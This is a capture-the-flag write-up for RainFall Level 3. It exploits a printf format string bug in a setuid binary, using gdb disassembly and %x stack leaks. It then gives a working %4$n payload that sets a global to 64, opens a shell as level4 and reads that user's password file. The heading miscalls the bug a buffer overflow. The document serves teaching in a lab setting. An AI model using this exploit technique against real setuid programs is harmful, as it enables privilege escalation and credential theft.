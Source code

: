 # Level 3

## Vulnerability

Buffer Overflow Exploit

## Context
```
level3@RainFall:~$ ls -l
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
level3@RainFall:~$ ./level3
hello
hello
```
We have a binary that prints input from the stdin. 

## Solution
Let's take a look at the binary in gdb. <br/>
We can see here that ```level3``` makes a call to ```main()```, which makes a call to a function ```v()```. <br/>
```
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   %ebp
   0x0804851b <+1>:	mov    %esp,%ebp
   0x0804851d <+3>:	and    $0xfffffff0,%esp
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.
```
Let's take a deeper look a ```v()```.<br/>
We can see two function calls in ```v()```. <br/>
One is to ```fgets()```, which is protected against buffer overflow attacks. <br/>
The other is to ```printf()```, which is vulnerable to string format exploits. 
```
(gdb) disas v
[...]
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
```
We also find a global variable ```m``` at address 0x804988c.
```
(gdb) break v
(gdb) run
(gdb) info variables
0x0804988c  m
```
Back in ```v()```, we see a comparison of variable ```m``` to the value 64 (or $0x40 in hexadecimal).<br/>
If the comparison is not equal (```jne```), then the program quits.<br/>
If the comparison is true, the program makes a call to ```system()``` and launches a new shell. 
```
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   [...]
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
```
We know that a ```printf()``` string with spurious % specifiers can be used to read whatever is on the stack. <br/>
Let's try it out. We'll use the modifier ```%x```, which will print out addresses on the stack in hexadecimal.
```
level3@RainFall:~$ python -c 'print "AAAA %x %x %x %x %x %x %x"' | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```
Interesting... We can see our buffer "AAAA" in the 4th position on the stack as ```41414141```.<br/>
This means that we can leverage ```printf``` to write our variable ```m```'s address directly in the stack!<br/>
So let's replace our buffer "AAAA" with the address of the variable ```m``` (in little endian).
```
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08'+'%x %x %x %x'" | ./level3
�200 b7fd1ac0 b7ff37d0 804988c
```
Great. Now how do we get our new ```m``` to have the value 64?<br/>
Well, we also know that with ```printf```'s ```%n``` modifier, some values can be written to memory. <br/>
```%n``` means: "the next argument is an ```int *``` – go there and write the number characters written so far".<br/>
Let's break down what this exploit format string will look like. <br/>

- address of ```m``` [4 bytes]
- pad of arbitrary data [60 bytes]
- ```4$``` ($ is a shortcut to specifying the argument number. In this case, the 4th argument on the stack)
- ```%n``` (writes 64 to memory at the address of ```m```)

```
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08"+"A"*60+"%4$n"' ; cat -) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## Recreate Exploited Binary

As user level4, in /tmp, create and compile level3_source.c.
```
level4@RainFall:~$ cd /tmp
level4@RainFall:/tmp$ gcc level3_source.c -fno-stack-protector -o level3_source
```
Edit permissions including suid, then move the binary to home directory.
```
level4@RainFall:/tmp$ chmod u+s level3_source
level4@RainFall:/tmp$ chmod +wx ~; mv level3_source ~
```
Exit back to user level3, then run the binary. <br/>
(Note: Our new variable ```m``` is located at 0x0804a04c, but we still print the address in little endian).
```
level4@RainFall:/tmp$ exit
exit
level3@RainFall:~$ (python -c 'print "\x4c\xa0\x04\x08"+"A"*60+"%4$n"' ; cat -) | /home/user/level4/level3_source
```
